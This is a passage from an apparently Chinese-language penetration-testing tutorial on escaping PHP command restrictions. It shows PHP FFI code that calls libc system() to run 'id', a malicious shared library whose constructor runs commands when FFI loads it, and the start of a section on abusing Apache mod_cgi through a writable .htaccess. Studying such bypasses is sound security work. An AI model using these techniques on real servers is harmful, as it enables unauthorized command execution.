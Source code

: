 那如何执行系统命令呢，使用 FFI::cdef 声明一个 system 函数使用就可以了， `man system` 查看 system 函数说明，直接复制就好

```
&lt;?php

$ffi = FFI::cdef(
    "int system(const char *command);",
    "libc.so.6");

$ffi-&gt;system("id");

?&gt;
```

成功执行

[![](https://p2.ssl.qhimg.com/t011cf6a7b9f5efae54.png)](https://p2.ssl.qhimg.com/t011cf6a7b9f5efae54.png)

​ 这里如果只定义 system 函数而省略 libc.so.6 同样也是可以执行命令的，支持 RTLD_DEFAULT 的平台将尝试在常规全局范围内查找在代码中声明的符号

​ 当我们只能控制 FFI::cdef 函数的 lib 参数的时候，FFI::cdef 函数还可以加载我们自定义的动态链接库，但是需要填写绝对路径，否则会无法加载，比如

ffi.php

```
&lt;?php

$ffi = FFI::cdef(
        "int system(const char *command);",
        "/var/www/html/bad.so");

?&gt;
```

bad.c

```
#include &lt;stdlib.h&gt;
__attribute__((constructor)) void j0k3r()`{`
    system("echo Hacked &amp;&amp; id");
`}`
```

只要加载编译好的 bad.so 即可执行恶意代码

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t019dd1e34dde37ee03.png)

### <a class="reference-link" name="9.%20Apache%20mod_cgi%20%E4%BF%AE%E6%94%B9%20.htaccess%20%E7%BB%95%E8%BF%87%E9%99%90%E5%88%B6"></a>9. Apache mod_cgi 修改 .htaccess 绕过限制

有几个利用条件
1. Apache 开启 AllowOverride
1. 开启 cgi_module
1. .htaccess 文件可写
1. cgi 程序可执行
本地测试环境推荐使用 Docker，会比较最方便
